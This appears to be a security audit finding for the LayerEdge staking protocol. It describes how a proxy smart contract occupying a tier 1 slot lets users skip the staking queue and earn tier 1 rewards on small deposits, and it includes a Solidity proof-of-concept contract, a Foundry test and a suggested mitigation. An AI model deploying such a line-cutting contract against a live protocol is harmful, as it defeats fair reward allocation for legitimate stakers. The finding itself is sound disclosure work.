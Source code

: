 Mysterious Gingham Sardine

Medium

# Users could skip the line with a simple smart contract that sits in tier 1

### Summary

Because the tier system operates as a first come first serve system, a user could create a smart contract that occupies one of the tier 1 slots and stakes on other user's behalf. This "staking protocol on top of a staking protocol" would allow anyone to cut to the front of the line, and would bypass the entire premise of the protocol. This would also allow users who stake less than the minimum stake required to receive tier 1 rewards for their stake.

### Root Cause

The choice to allow early stakers to keep their spot in line so long as they maintain a balance higher than the minimum staking amount combined with the fact that there are no protections against smart contracts staking on someone else's behalf allow the queue to be bypassed. This exploitative behavior ruins the spirit of the staking protocol and disincentivizes anyone from staking legitimately in the pool so long as the proxy staker is in tier 1.

In _stake() and [_unstake()](https://github.com/sherlock-audit/2025-05-layeredge/blob/main/edgen-staking/src/stake/LayerEdgeStaking.sol#L740) there is no way for a user to get booted from his tier unless his balance dips below minimum stake, which allows this contract to park in a good spot forever, allowing an infinite number of users to cut the line.

### Internal Pre-conditions

No internal pre-conditions, a line cutting contract that joins the queue before a user will always be a more attractive choice to that user than joining the queue from the beginning.

### External Pre-conditions

No external preconditions.

### Attack Path

1. At attacker deploys a contract that can stake on a user's behalf
2. Because that contract now has a better spot in line than a new spot, users are incentivized to stake with the line cutter

### Impact

Anyone that uses such a contract can bypass the wait and earn higher rewards, cutting in line ahead of legitimate users. This also allows for users with small deposits to earn tier 1 staking rewards.

### PoC

Please paste the following contract at the very bottom of LayerEdgeStatingTest.t.sol. Please note that this is a simplified contract for the sake of demonstration, in production it would need rewards distribution logic.

```solidity
contract Bypasser {

    mapping(address => uint256) public balances;
    mapping(address => uint256) public pendingWithdrawals;
    address token;
    LayerEdgeStaking staking;

    constructor(address _token, address _staking) {
        token = _token;
        staking = LayerEdgeStaking(payable(_staking));
        IERC20(token).approve(address(staking), type(uint256).max);
    }

    function stake(uint256 amount) public {
        IERC20(token).transferFrom(msg.sender, address(this), amount);
        balances[msg.sender] += amount;
        staking.stake(amount);
    }

    function unstake(uint256 amount) public {
        staking.unstake(amount);
        balances[msg.sender] -= amount;
        pendingWithdrawals[msg.sender] += amount;
    }

    function completeUnstake(uint256 id) public {
        staking.completeUnstake(id);
    }

    function withdraw(uint256 amount) public {
        pendingWithdrawals[msg.sender] -= amount;
        IERC20(token).transfer(msg.sender, amount);
    }
}
```

Please place the actual test within the testing contract in the same file:

```solidity
function test_audit_bypass_queue() public {
    // NOTE this needs the bypasser contract to run

    // a very simple contract could save spots in the queue for anyone
    // and could allow very small deposits to be tier 1

    address attacker = makeAddr("attackerAttacker");
    vm.startPrank(admin);
    token.transfer(attacker, MIN_STAKE * 100);

    Bypasser bypasser = new Bypasser(address(token), address(staking));

    // make the initial stake - now the first spot in line is secured forever
    vm.startPrank(attacker);
    token.approve(address(bypasser), 1000000e18);
    bypasser.stake(MIN_STAKE);

    // set up stakers, new joiners should be at tier 3
    setupMultipleStakers(10);

    // a latecomer wants to join and can skip to the front of the line through this contract
    // even though he's late and his stake is small, he'll be tier 1 through the contract
    address latecomer = makeAddr("latecomer");
    vm.startPrank(admin);
    token.transfer(latecomer, MIN_STAKE / 3);
    vm.startPrank(latecomer);
    token.approve(address(bypasser), MIN_STAKE / 3);
    bypasser.stake(MIN_STAKE / 3);

    // he can unstake whenever
    bypasser.unstake(MIN_STAKE / 3);
    vm.warp(block.timestamp + 7 days + 1);
    bypasser.completeUnstake(0);
}
```

### Mitigation

This could be mitigated with a blacklist or by treating every new stake as its own position.